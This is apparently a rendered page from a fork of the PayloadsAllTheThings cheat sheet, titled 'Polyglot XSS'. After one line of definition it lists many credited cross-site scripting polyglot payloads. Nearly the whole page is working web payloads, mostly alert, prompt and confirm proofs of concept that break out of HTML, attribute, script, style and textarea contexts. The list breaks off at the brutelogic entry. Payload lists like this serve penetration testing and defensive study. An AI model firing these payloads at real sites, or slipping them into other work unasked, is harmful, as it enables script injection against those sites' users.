

repository: pchabermann/PayloadsAllTheThings · page: XSS Injection/2 - XSS Polyglot/index.html · generator: mkdocs

# Polyglot XSS

A polyglot XSS is a type of cross-site scripting (XSS) payload designed to work across multiple contexts within a web application, such as HTML, JavaScript, and attributes. It exploits the application’s inability to properly sanitize input in different parsing scenarios.

* Polyglot XSS - 0xsobky

    ```javascript
    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
    ```

* Polyglot XSS - Ashar Javed

    ```javascript
    ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
    ```

* Polyglot XSS - Mathias Karlsson

    ```javascript
    " onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    ```

* Polyglot XSS - Rsnake

    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
    ```

* Polyglot XSS - Daniel Miessler

    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
    javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
    --></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
    /</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
    /</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
    ```

* Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
    ![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

    ```javascript
    -->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
    ```

    ![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)

    ```javascript
    <svg%0Ao%00nload=%09((pro\u006dpt))()//
    ```

* Polyglot XSS - from [@filedescriptor's Polyglot Challenge](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)

    ```javascript
    // Author: crlf
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

    // Author: europa
    javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

    // Author: EdOverflow
    javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

    // Author: h1/ragnar
    javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
    ```

* Polyglot XSS - from [brutelogic](https://web.archive.org/web/20210623151016/https://brutelogic.com.br/blog/building-xss-polyglots/)
